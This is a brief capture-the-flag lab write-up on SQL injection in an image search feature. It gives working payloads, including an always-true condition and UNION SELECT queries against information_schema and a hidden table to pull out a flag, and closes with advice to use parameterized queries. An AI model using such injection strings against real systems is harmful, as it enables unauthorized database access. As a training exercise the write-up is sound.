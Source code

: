 ## 7- SQL INJECTION SEARCH IMAGE
### How to reproduce :
if we put `1 OR 0=0` in the images search we can see the all images.
so we can use this query to list all columns in all tables
`0 OR 0=0 UNION SELECT TABLE_NAME,COLUMN_NAME FROM information_schema.columns`
now we know the name images table and name of the other columns in images table
now with this query we can get the content of the other columns in images table
`0 OR 0=0 UNION SELECT title,comment FROM list_images`
we found this value in one of the columns
`If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46`
we decode it and encode it like what they said and we get the flag
### How to Fix :
We should prepare the query before executing it or use parametrized queries or use Input validation.
Or use a tool like PDO in php or entity framework in .NET
